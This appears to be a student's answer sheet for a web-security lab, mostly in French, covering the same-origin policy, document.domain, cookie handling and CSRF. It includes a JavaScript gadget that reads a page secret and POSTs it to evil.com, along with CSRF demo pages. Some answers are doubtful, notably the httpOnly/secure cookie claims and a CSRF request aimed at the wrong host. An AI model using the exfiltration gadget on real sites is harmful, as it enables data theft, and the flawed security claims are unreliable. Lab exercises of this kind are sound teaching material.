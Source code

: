 **Question 1 : Look at the code of integrator.html and write code for evilGadget.js in such a way that evilGadget.js will send the secret to evil.com. Rewrite integrator.html so the same origin policy will protect the secret.**

```js
// evilGadget.js
const secret = document.getElementById("secret").innerText;  
  
const urlAttackerSever = "http://evil.com:8080"  
  
const request = {  
    mode:  'no-cors',  
    method: "POST",  
    headers: {  
        'Content-Type': 'application/json',  
    },  
    body : JSON.stringify({ secret: secret })  
};  
  
fetch(urlAttackerSever, request)
```

Pour mettre en place le SOP (Same Origin Policy), afin de protéger le secret, il faut mettre une balise iframe au lieu d'une balise script. Comme la balise iframes sont conçue pour charger une page html dans une autre page html. Nous allons devoir créer une page html sur le site **evil.com**, contenant une balise script ayant pour source **evilGadget.js**.

```html
<!-- page web html sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html">  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js">  
    </script></iframe>  
</html>
```

Finalement, le site evil.com ne peut plus récupérer le secret.

**Question 2 : Look at the sop2.html. From subdomain2.html try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using document.domain?**

Il n'est pas possible de récupérer le secret, car la source l'iframe ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournit par le serveur subdomain.host.com. Nous pouvons réaliser cela, en modifiant la fichier subdomainpage.html de la manière suivante :

```bash
<html>  
<head>  
    <script>    </script><h1> This is an iframe of different origin (subdomain)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. En pratique, j'ai jamais réussi à le faire fonctionner.

**Question 3 : Write two different services from the same server that set a cookie.  
On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- Does the previous item work if the gadget is inside a frame?
- and if the gadget is inside a script and the cookie is initially set as httpOnly?
- and if the gadget is inside a script and the cookie is initially set as secure?  
**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of  
SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur evil.com qui réalise un requête sur un autre site, par exemple host.com

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <title>Title</title>  
</head>  
<body>  
<h1>Attaque CSRF on evil.com to host.com</h1>  
<script>  
    const url = "http://evil.com:8080/random_ressouce.html";  
    const request = {  
        mode:  'no-cors',  
        method: "GET",  
        headers: {  
            'Content-Type': 'application/json',  
        },  
    };  
  
    fetch(url, request);  
</script>  
</body>  
</html>
```

Les cookie de host.com sont envoyés au cours de la requête.
